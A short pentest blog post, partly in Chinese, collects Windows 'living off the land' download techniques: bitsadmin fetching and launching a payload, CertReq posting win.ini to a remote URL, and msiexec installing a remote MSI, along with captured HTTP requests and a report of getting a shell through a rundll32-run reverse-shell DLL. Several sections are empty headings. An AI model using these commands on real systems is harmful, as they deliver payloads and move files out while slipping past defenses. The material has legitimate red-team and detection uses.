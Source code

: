 ```yaml
---
layout:     post
title:      Living Off The Land
date:       2020-11-26 01:47:05 +0800
categories: Security
tags:       Download Pentest
author:     SteveDevin
mathjax:    true
---
```

* content
{:toc}

最近做白利用改进专项, 记录一下



## Download

### 1. Bitsadmin.exe

```powershell
bitsadmin /create myfile
bitsadmin /addfile myfile http://192.168.220.125/white_process/call_calc.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile
```

[***pcap***](../assets/pcap/Bitsadmin.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
If-Unmodified-Since: Wed, 25 Nov 2020 16:46:48 GMT
Range: bytes=0-71744
User-Agent: Microsoft BITS/7.8
Host: 192.168.220.125
```

### 2. CertReq.exe

```powershell
CertReq -Post -config https://example.org/ c:\windows\win.ini
```

[***pcap***](../assets/pcap/CertReq.pcap)

```http
POST /white_process/test HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.18362.1/19h1_release)
Content-Length: 167
Host: 192.168.220.125
```

***Note***: Small files only

*Due to something going on with the internals of CertReq.exe only small (not sure on specific size limitations) files appear to work - otherwise you get the below error!*

### 3. Certutil.exe

### 4. Desktopimgdownldr.exe

### 5. Diantz.exe

### 6. Esentutl.exe

### 7. Msiexec.exe

```powershell
bmsiexec /i http://192.168.220.125/white_process/test.msi
```

[***pcap***](/assets/pcap/Msiexec.pcap)

***Note***: whitch function Msiexec.exe call: *DllRegisterServer*
之前按照 `Micro8` 的过程复现, 发现一直有问题, 后来wsy提醒说, Msiexec 调用的dll的 `DllRegisterServer`, 而`Micro8`中的方法生成的dll导出表仅有 `DllEntryPoint`

后面逆向了一下 32位版的 msiexec.exe, 也通过 `rundll32 Msiexec_rev_x64_4444.dll DllEntryPoint` 成功 get shell 证实了这一结论

![msiexec_re_register_dll]({{site.url}}/assets/img/Msiexec_DllRegisterServer.png)

## Reference

1. [lolbas/#download](https://lolbas-project.github.io/#/download)
2. [Exe_ADS_Methods.txt](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

### download

#### certreq

1. [dtm.uk](https://dtm.uk/certreq/)

#### Msiexec

1. [3gstudent](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec/)
2. [Micro8](https://www.bookstack.cn/read/Micro8/Chapter1-81-90-86_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Msiexec%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%85%AB%E5%AD%A3%E8%A1%A5%E5%85%85.md)
